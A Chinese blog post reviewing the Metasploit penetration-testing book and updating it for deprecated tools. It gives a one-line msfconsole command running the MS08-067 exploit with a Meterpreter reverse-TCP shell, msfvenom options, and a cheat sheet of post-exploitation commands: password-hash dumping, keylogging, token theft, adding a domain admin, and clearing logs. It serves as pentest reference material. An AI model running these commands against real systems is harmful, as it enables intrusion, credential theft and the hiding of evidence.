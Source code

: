 ```yaml
---
layout: post
title:  "读《Metasploit渗透测试指南》"
image: ''
date:   2015-12-22 00:06:31
tags:
- web
- metasploit
- penetration
description: ''
categories:
- web
---
```



> 本文写于 2015.12.22

这几天看《 Metasploit 渗透测试指南》，有些内容好像已经过时了。用户接口讲了三种： MSF 终端，MSF 命令行和 Armitage，而从今年的六月份开始，Msfcli 就与我们说再见了，同时，可以通过 Msfconsole 使用 -x 选项来取代 Msfcli 。

举个例子，在一条命令中使用 MS08_067 模块。
```
msfconsole -x "use exploit/windows/smb/ms08_067_netapi; set RHOST [IP]; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST [IP]; run"
```
也可以分步写或者做成脚本来简化输入：
```
use exploit/windows/smb/ms08_067_netapi  
set RHOST [IP]  
set PAYLOAD windows/meterpreter/reverse_tcp  
set LHOST [IP]  
run
```
然后运行它：
```
msfconsole -r name_of_resource_script.rc
```
如果你已经运行了 msfconsole ，就输入下面的：
```
msf > resource name_of_resource_script.rc
```
另外， msfpayload 和 msfencode 也退休了， msfvenom 是它们的继承者，如果对新工具还不熟悉，可以使用 -h 选项来获得帮助。
```
-p, --payload    <payload>       Payload to use. Specify a '-' or stdin to use custom payloads  
-l, --list       [module_type]   List a module type example: payloads, encoders, nops, all  
-n, --nopsled    <length>        Prepend a nopsled of [length] size on to the payload  
-f, --format     <format>        Output format (use --help-formats for a list)  
-e, --encoder    [encoder]       The encoder to use  
-a, --arch       <architecture>  The architecture to use  
    --platform   <platform>      The platform of the payload  
-s, --space      <length>        The maximum size of the resulting payload  
-b, --bad-chars  <list>          The list of characters to avoid example: '\x00\xff'  
-i, --iterations <count>         The number of times to encode the payload  
-c, --add-code   <path>          Specify an additional win32 shellcode file to include  
-x, --template   <path>          Specify a custom executable file to use as a template  
-k, --keep                       Preserve the template behavior and inject the payload as a new thread  
    --payload-options            List the payload's standard options  
-o, --out   <path>               Save the payload  
-v, --var-name <name>            Specify a custom variable name to use for certain output formats  
-h, --help                       Show this message  
    --help-formats               List available formats
```

参考文章：
- [Weekly Metasploit Wrapup](https://community.rapid7.com/community/metasploit/blog/2015/01/23/weekly-metasploit-wrapup)
- [Msfcli is no longer available in Metasploit](https://community.rapid7.com/community/metasploit/blog/2015/07/10/msfcli-is-no-longer-available-in-metasploit)
- [Good-bye msfpayload and msfencode](https://community.rapid7.com/community/metasploit/blog/2014/12/09/good-bye-msfpayload-and-msfencode)
- [MsfPayload and MsfEncode are being removed from Metasploit](https://community.rapid7.com/community/metasploit/blog/2015/06/08/msfpayload-and-msfencode-are-being-removed-from-metasploit)


## Metasploit 常用命令列表
#### MSF 终端命令
```
show exploits （列出所有渗透攻击模块
show payloads （列出所有攻击载荷
show auxiliary （列出所有辅助攻击模块
search names （查找所有的渗透攻击和其他模块
info （展示出制定渗透攻击或模块的相关信息
use name （装载一个渗透攻击或者模块
LHOST （本地可以让目标主机连接的IP地址，通常当目标主机不在同一个局域网时，就需要时一个公共的IP地址，特别为反弹式shell使用。
RHOST （远程主机或者目标主机
set function （设置特定的配置参数
setg function （以全局方式设置特定的配置参数
show options （列出某个渗透攻击或模块中所有的配置参数
show targets （列出渗透攻击所支持的目标平台
set target num （指定你所知道的目标的操作系统以及补丁版本类型
set payload payload （指定想要使用的攻击载荷
show advanced （列出所有高级配置选项
set autorunscript migrate -f （在渗透攻击完成后，将自动迁移到另一个进程
check （检测目标是否对选定渗透攻击存在相应安全漏洞
exploit （执行渗透攻击或模块来攻击目标
exploit -j （在计划任务下进行渗透攻击，攻击在后台进行
exploit -z （渗透攻击成功后不与会话进行交互
exploit -e encoder （制定使用的攻击载荷编码方式
exploit -h （列出帮助信息
sessions -l （列出可用的交互会话，在处理多个shell时使用
sessions -l -v （列出所有可用的交互会话以及会话详细信息
sessions -s script （在所有活跃的会话中运行一个特定的脚本
sessions -K （杀死所有活跃的交互会话
sessions -c cmd （在所有活跃的会话上执行一个命令
sessions -u sessionID （升级一个普通的win32 shell到meterpreter shell
db_create name （创建一个数据库驱动攻击所要使用的数据库
db_connect name （创建并连接一个数据库驱动攻击所要使用的数据库
db_nmap （利用nmap并把扫描数据存储到数据库中
db_autopwn -h （帮助信息
db_autopwn -p -r -e （对所有发现的开放端口执行db_autopwn，攻击所有系统，并使用一个反弹式shell
db_destroy （删除当前数据库
db_destroy user:password@host:port/database （使用高级选项来删除数据库
```
#### Meterpreter命令
```
help （帮助
run scriptname （运行脚本
sysinfo （列出受控主机的系统信息
ls （列出目标主机的文件和文件夹信息
use priv （加载特权提升扩展模块
ps （显示所有运行进程以及关联的用户账户
migrate PID （迁移到一个指定的进程ID
use incognito （加载incognito功能，用来盗窃目标主机的令牌或是假冒用户
list_tokens -u （列出目标主机用户的可用令牌
list_tokens -g （列出目标主机用户组的可用令牌
impersonate_token DOMAIN_NAME\USERNAME （假冒目标主机上的可用令牌
steal_token PID （盗窃给定进程的可用令牌并进行令牌假冒
drop_taken （停止假冒当前令牌
getsystem （通过各种攻击向量来提升到系统用户权限
shell （以所有可用令牌来运行一个交互的shell
execute -f cmd.exe -i （执行cmd.exe命令并进行交互
execute -f cmd.exe -i -t （以所有可用令牌来执行cmd命令
execute -f cmd.exe -i -H -t （以所有可用令牌来执行cmd命令并隐藏该进程
rev2self （回到控制目标主机的初始用户账户下
reg command （在目标主机注册表中进行交互，创建，删除，查询等操作
setdesktop number （切换到另一个用户界面
screenshot （对目标主机屏幕进行截图
upload file （向目标主机上传文件
download file （从目标主机下载文件
keyscan_start （针对远程目标主机开启键盘记录功能
keyscan_dump （存储目标主机上捕获的键盘记录
keyscan_stop （停止针对目标主机的键盘记录
getprivs （尽可能多的获取目标主机上的特权
uictl enable keyboard/mouse （接管目标主机的键盘和鼠标
background （将当前的shell转为后台执行
hashdump （导出目标主机中的口令哈希值
use sniffer （加载嗅探模块
sniffer_interfaces （列出目标主机所有开放的网络接口
sniffer_dump interfaceID pcapname （在目标主机上启动嗅探
sniffer_start interfaceID packet-buffer （在目标主机上针对特定范围的数据包缓冲区启动嗅探
sniffer_starts interfaceID （获取正在实施嗅探网络接口的统计数据
sniffer_stop interfaceID （停止嗅探
add_user username password -h ip （在远程目标主机上添加一个用户
add_group_user “Domain Admins” username -h ip （将用户添加到目标主机的域管理员组中
clearev （清除目标主机上的日志记录
timestomp （修改文件属性
reboot （重启目标主机
```
